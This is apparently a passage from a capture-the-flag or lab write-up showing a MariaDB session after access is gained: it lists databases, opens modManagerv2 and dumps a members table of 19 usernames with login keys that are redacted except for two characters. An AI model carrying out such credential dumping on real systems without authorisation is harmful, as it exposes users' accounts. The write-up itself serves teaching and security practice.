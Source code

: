 We're in!

**Let's enumerate the database:**
```shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| modManagerv2       |
| mybb               |
| mysql              |
| performance_schema |
+--------------------+
```

- Found non default database: `modManagerv2`, `mybb`

**Let's use database `modManagerv2`:**
```shell
MariaDB [(none)]> use modManagerv2
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [modManagerv2]> show tables;
+------------------------+
| Tables_in_modManagerv2 |
+------------------------+
| members                |
+------------------------+
1 row in set (0.227 sec)

MariaDB [modManagerv2]> SELECT * FROM members;
+----------------+-----------------------------------------------------+
| user           | login_key                                           |
+----------------+-----------------------------------------------------+
| LucyRob        | xa{Redacted}                                        |
| Wannabe_Hacker | Ls{Redacted}                                        |
| batmanZero     | TB{Redacted}                                        |
| SandraJannit   | 6V{Redacted}                                        |
| biggieballo    | 75{Redacted}                                        |
| AimsGregger    | Xj{Redacted}                                        |
| BlackCat       | JY{Redacted}                                        |
| Golderg        | cl{Redacted}                                        |
| TonyMontana    | 8C{Redacted}                                        |
| CaseBrax       | eH{Redacted}                                        |
| Ellie          | G9{Redacted}                                        |
| Sosaxvector    | RU{Redacted}                                        |
| PalacerKing    | 49{Redacted}                                        |
| Anderson       | lk{Redacted}                                        |
| CrazyChris     | tp{Redacted}                                        |
| StaceyLacer    | QD{Redacted}                                        |
| ArnoldBagger   | Oo{Redacted}                                        |
| Carl_Dee       | 3m{Redacted}                                        |
| Xavier         | ZB{Redacted}                                        |
+----------------+-----------------------------------------------------+
19 rows in set (0.230 sec)
```
